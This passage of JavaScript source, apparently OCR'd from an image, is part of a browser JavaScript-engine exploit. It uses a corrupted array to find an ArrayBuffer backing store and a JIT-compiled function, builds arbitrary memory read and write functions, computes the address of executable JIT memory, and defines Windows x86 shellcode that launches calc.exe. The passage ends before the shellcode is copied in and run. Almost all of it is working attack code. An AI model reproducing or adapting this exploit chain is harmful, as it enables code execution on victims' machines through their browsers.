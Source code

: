         }
    
        if (backing_store_idx == -1) {
            log("[-] Can not find backing store !");
            return;
        } else
            log("[+] backing store idx: " + backing_store_idx +
                ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");
    
        if (OptObj_idx == -1) {
            log("[-] Can not find Opt Obj !");
            return;
        } else
            log("[+] OptObj idx: " + OptObj_idx +
                ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");
    
        var backing_store = (backing_store_in_hign_mem ?
            f2u(big_arr[backing_store_idx])[1] :
            f2u(big_arr[backing_store_idx])[0]);
        log("[+] Origin backing store: " + hex(backing_store));
    
        var dataNearBS = (!backing_store_in_hign_mem ?
            f2u(big_arr[backing_store_idx])[1] :
            f2u(big_arr[backing_store_idx])[0]);
    
        function read(addr) {
            if (backing_store_in_hign_mem)
                big_arr[backing_store_idx] = u2f(addr, dataNearBS);
            else
                big_arr[backing_store_idx] = u2f(dataNearBS, addr);
            return data_view.getInt32(0, true);
        }
    
        function write(addr, msg) {
            if (backing_store_in_hign_mem)
                big_arr[backing_store_idx] = u2f(addr, dataNearBS);
            else
                big_arr[backing_store_idx] = u2f(dataNearBS, addr);
            data_view.setInt32(0, msg, true);
        }
    
        var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
            f2u(big_arr[OptObj_idx])[1] :
            f2u(big_arr[OptObj_idx])[0]) - 1;
        log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));
    
        var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
        log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));
    
        var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
        log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));
    
        var shellcode = new Uint8Array(
               [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
                0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
                0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
                0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
                0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
                0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
                0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
                0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
                0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
                0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
                0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
                0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
                0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
        );
    